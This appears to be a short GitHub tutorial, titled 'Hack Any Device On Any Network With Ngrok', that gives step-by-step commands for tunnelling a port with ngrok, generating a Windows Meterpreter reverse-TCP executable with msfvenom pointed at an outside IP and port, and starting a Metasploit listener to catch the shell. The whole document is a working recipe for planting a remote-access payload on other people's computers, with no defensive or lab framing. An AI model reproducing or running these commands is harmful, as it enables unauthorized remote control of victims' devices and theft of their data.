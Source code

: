 
## Hack Any Device On Any Network With Ngrok


		There are two different ways of doing this
		
			-> Port Forwarding
			
			-> Using Ngrok
			
			
			
			
### Install Ngrok
	
	https://ngrok.com/
	
	Sign up and download for linux
	
	-> cd Downloads
	
	-> mv ngrok-stable-linux-amd64.tgz /home/kali/Desktop
	
	-> tar -xvf ngrok-stable-linux-amd64.tgz
	
	-> ./ngrok authtoken <auth token>
	
	-> ./ngrok help
	
	-> ./ngrok tcp 5555
	


### Find the IP address
	
	-> host 0.tcp.ngrok.io
	
	This IP address will be used as a locahost in payload creation



### Create the payload
	
	-> cd Dekstop
	
	-> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=3.14.182.203 LPORT=15859 -f exe -o shell.exe
	
	



### Setting Up the Listener
	
	-> msfconsole
	
	-> use exploit/multi/handler
	
	-> set payload windows/x64/meterpreter/reverse_tcp
	
	-> set LHOST 0.0.0.0   //means we are listening to any incoming connection
	
	-> set LPORT 5555
	
	-> run 
	
	